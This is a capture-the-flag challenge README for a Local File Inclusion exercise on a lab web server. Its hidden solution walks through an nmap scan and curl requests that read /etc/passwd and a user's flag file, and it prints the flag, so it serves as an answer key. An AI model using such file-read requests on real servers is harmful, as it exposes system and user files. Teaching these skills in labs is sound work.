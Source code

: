 # Famous Quotes

Simple challenge for Local File Inclusion

### Task

Find an HTTP server at IP address `172.20.0.10` and try to exploit the naivity of the programmer to find a flag

## How to solve
<details>
  <summary>Click to reveal how to solve steps</summary>


1. Use `nmap` to find opened ports:
```bash
root@hackerlab:~# nmap -sS -n -v 172.20.0.10
...
PORT     STATE SERVICE
8080/tcp open  http-proxy
MAC Address: 02:42:AC:14:00:0A (Unknown)
...
```

2. Discover the open port 8080 and try to manipulate the server functionality. Eventually you might discover LFI vulnerability and discover a user named bob in the `/etc/passwd` file. And finally, bob has a flag in his home directory:
```bash
root@hackerlab:~# curl 172.20.0.10:8080
Please specify a quote file to read in the URL path. Options are: ['asimov.txt', 'einstein.txt', 'jobs.txt']

root@hackerlab:~# curl 172.20.0.10:8080/asimov.txt
The true delight is in the finding out rather than in the knowing.

root@hackerlab:~# curl 172.20.0.10:8080/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
bob:x:1000:1000::/home/bob:/bin/bash

root@hackerlab:~# curl 172.20.0.10:8080/home/bob/flag.txt
bsy{YouMaySayIamADreamerButIamNotTheOnlyOne}
```


</details>

## Testing

The script [auto-solve.sh](./auto-solve.sh) automatically verifies that the challenge can be solved.

